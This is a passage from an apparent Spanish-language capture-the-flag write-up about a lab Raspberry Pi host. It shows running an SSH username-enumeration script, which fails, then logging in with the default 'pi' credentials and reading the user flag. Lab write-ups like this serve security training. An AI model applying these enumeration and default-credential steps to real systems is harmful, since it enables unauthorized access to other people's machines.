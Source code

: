 * Ejecutemoslo usando el **usuario pi**:
```bash
python2 SSH_Enum.py 10.10.10.48 pi 2>/dev/null
[-] pi is an invalid username
```
Mmmm que curioso, no lo detecta. Esto es un ejemplo perfecto, de que no todos los Exploits son confiables.

<h2 id="Creds">Probando Credenciales por Defecto</h2>

Intentemos entrar usando las credenciales por defecto de **Raspberry Pi**:
```bash
ssh pi@10.10.10.48                   
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
```

?...Bueno ya que estamos dentro, busquemos alguna flag:
```bash
pi@raspberrypi:/home $ cd pi
pi@raspberrypi:~ $ ls
background.jpg  Desktop  Documents  Downloads  Music  oldconffiles  Pictures  Public  python_games  Templates  Videos
pi@raspberrypi:~ $ cd Public
pi@raspberrypi:~/Public $ ls
pi@raspberrypi:~/Public $ cd ../Desktop/
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
```
Ahí está la flag del usuario.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
